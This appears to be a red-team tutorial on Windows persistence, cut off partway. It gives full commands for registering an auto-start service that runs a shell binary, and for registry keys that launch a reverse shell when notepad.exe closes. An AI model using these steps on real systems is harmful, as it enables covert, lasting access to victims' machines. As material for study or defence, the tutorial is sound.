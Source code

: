 ![image](https://github.com/user-attachments/assets/63d7d360-7884-4be3-bebd-1d6e41c9fcb2)

### Services:

>  What is a Windows Service? - Definition from Techopedia\
A Windows service is an application that usually serves a core operating system function running in the background, visit [here](https://www.techopedia.com/definition/13530/windows-service)

Windows services are essential parts of the operating system, responsible for handling tasks like memory, device management, user credentials, preferences, and third-party applications. They function similarly to Unix daemons.

#### POC:

To start we need powershell instance:

![image](https://github.com/user-attachments/assets/7586635b-eaee-4211-8b00-185efdd52a89)

A new service is created with an **automatic** startup type, configured to execute the binary specified in the `BinaryPathName` field.

```bash
New-Service -Name "s12" -BinaryPathName "C:\Users\s12de\Downloads\shell.exe" -Description "PersistenceWindows" -StartupType Automatic
```

![image](https://github.com/user-attachments/assets/5d1056c5-3aa3-4f2b-8183-c425b9527089)

And now start the service:

```bash
sc start s12
```

![image](https://github.com/user-attachments/assets/40f8fb8c-5404-4f9e-9185-00fb6bf17cc8)

![image](https://github.com/user-attachments/assets/ccf0dfba-2f3c-4130-89d7-f34104cb2f56)

### Close App:

This next method is my favorite — it allows your binary to execute whenever a specific process or binary is closed. In this example, a reverse shell is triggered when the user terminates the `notepad.exe` process.

To do this we need to execute 3 commands in cmd:

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
```

![image](https://github.com/user-attachments/assets/d8573bc4-dcaa-4188-801d-8863fdaa3a54)

</br>

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
```
